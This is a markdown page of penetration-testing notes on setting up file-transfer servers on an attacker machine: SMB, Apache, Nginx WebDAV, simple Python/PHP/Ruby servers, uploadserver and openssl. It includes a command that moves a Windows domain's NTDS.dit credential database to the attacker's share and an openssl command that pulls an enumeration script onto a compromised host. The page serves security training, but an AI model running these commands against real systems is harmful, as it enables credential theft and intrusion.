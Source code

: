 ```yaml
---
title: Setting up servers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - servers
  - file transfer
---
```

 # Setting up a server (in the attacking machine)

| **Protocol / app**                            |
| --------------------------------------------- |
| [smb server](#smb-server)                     |
| [Apache server](#apache-server)               |
| [ngix](#ngix)                                 |
| [symple python server](#simple-python-server) |
| [php web server](#php-web-server)             |
| [Ruby web server](#ruby-web-server)           |
| Burp Suite Collaborator                       |
| [Interactsh](interactsh.md)                   |
| [responder](responder.md)                     |
| [uploadserver](uploadserver.md)               |
| [Webdav wsgodav server](webdav-wsgidav.md)    |


## smb server

[Launch smbserver in our attacker machine](smbserver.md):

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/username/Documents/
```

Now, from PS in the victim's windows machine we could upload a folder to the shared folder in the attacker machine just by running:

```powershell
cmd.exe /c move C:\NTDS\NTDS.dit \\$ip\CompData
```


## Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.

## Nginx

In Apache, the PHP module loves to execute anything ending in PHP. This is not very safe when allowing `HTTP` uploads, as we are trying to avoid that users cannot upload web shells and execute them.

Nginx server: 

```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File by creating the file /etc/nginx/sites-available/upload.conf with the contents:
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# Start Nginx
sudo systemctl restart nginx.service

# If we get any error messages, check /var/log/nginx/error.log. we might see, for instance, port 80 is already in use.
```

Debuggin nginx:

First check: ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory

Second check: Is default port in nginx already in use?

```bash
# Verifying Errors
tail -2 `/var/log/nginx/error.log`
# and we might check that port 80 could not be binded because is already in use

# See which service is using port 80
ss -lnpt | grep 80
# we will obtain the service and also the pid. For instance `2811`

# Check pid, for instance pid 2811, and see who is running it
ps -ef | grep "2811"

# Remove NginxDefault Configuration to get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default
```

Finally you can copy to your nginx server all files you want to transfer with curl:

```bash
curl -T file.txt
# -T, --upload-file <file>; This transfers the specified local file to the remote URL. -T uses PUT http method
```


## Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


##  PHP web server

```shell-session
php -S 0.0.0.0:8000
```


## Ruby Web Server

```shell-session
ruby -run -ehttpd . -p8000
```

## uploadserver

More at [uploadserver](uploadserver.md).

Python's http.server extended to include a file upload page. Accepts the same options as http.server, plus a couple extras.

After the server starts, the upload page is at /upload. For example, if the server is running at http://localhost:8000/ go to http://localhost:8000/upload .

Warning: This is an upload server, and running it will allow uploads.

Repo: https://github.com/Densaugeo/uploadserver

**Installation:**

```bash
python3 -m pip install --user uploadserver
```

Basic usage:

```bash
python3 -m uploadserver
```


## openssl

Create a certificate in the attacker's machine:

```shell-session
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Launch the openssl server in the attacker's machine:

```shell-session
openssl s_server -quiet -accept $portAttacker -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine. So, download the file from the victim's machine:

```shell-session
openssl s_client -connect $ipAttacker:$portAttacker -quiet > LinEnum.sh
```
